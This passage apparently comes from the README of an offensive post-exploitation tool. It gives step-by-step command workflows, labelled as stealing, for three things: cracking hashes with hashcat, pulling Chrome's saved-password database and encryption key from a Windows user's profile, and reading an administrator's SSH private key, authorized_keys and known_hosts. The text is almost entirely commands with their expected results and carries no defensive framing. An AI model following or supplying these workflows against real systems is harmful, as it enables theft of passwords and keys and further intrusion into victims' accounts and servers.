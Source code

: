 ```bash
# 10. Crack hashes with hashcat or john:
hashcat -m 1000 hashes.txt rockyou.txt
# Result: Plaintext passwords recovered
```

---

### Scenario 6: Admin File Access - Browser Credential Theft (New!)

```bash
# Complete workflow for stealing saved browser passwords

# 1. List Chrome user data directory
priv_list_dir "C:\Users\John\AppData\Local\Google\Chrome\User Data\Default"
# Result: Shows Login Data, Cookies, History, etc.

# 2. Read the Login Data file (SQLite database with passwords)
priv_read_binary "C:\Users\John\AppData\Local\Google\Chrome\User Data\Default\Login Data"
# Result: Base64-encoded SQLite database

# 3. On attacker machine, decode and save:
echo "BASE64_CONTENT" | base64 -d > LoginData.db

# 4. Query the database for saved credentials:
sqlite3 LoginData.db "SELECT origin_url, username_value, password_value FROM logins"
# Result: Encrypted passwords (require Chrome master key to decrypt)

# 5. Read the Local State file to get encryption key
priv_read_file "C:\Users\John\AppData\Local\Google\Chrome\User Data\Local State"
# Result: JSON file with encrypted_key

# 6. Use Chrome password decryption tools:
# - Use Python script with win32crypt (Windows)
# - Or use tools like LaZagne, ChromePass
# Result: Plaintext passwords for all saved credentials
```

---

### Scenario 7: Admin File Access - SSH Key Theft (New!)

```bash
# Complete workflow for stealing SSH private keys

# 1. List user's SSH directory
priv_list_dir C:\Users\Administrator\.ssh
# Result: Shows id_rsa, id_rsa.pub, authorized_keys, known_hosts

# 2. Read the private key
priv_read_file C:\Users\Administrator\.ssh\id_rsa
# Result: Private SSH key content (PEM format)

# 3. Save the key on attacker machine
# Copy the key content to id_rsa file

# 4. Set proper permissions
chmod 600 id_rsa

# 5. Read authorized_keys to see which servers
priv_read_file C:\Users\Administrator\.ssh\authorized_keys
# Result: List of authorized public keys

# 6. Read known_hosts to see connection history
```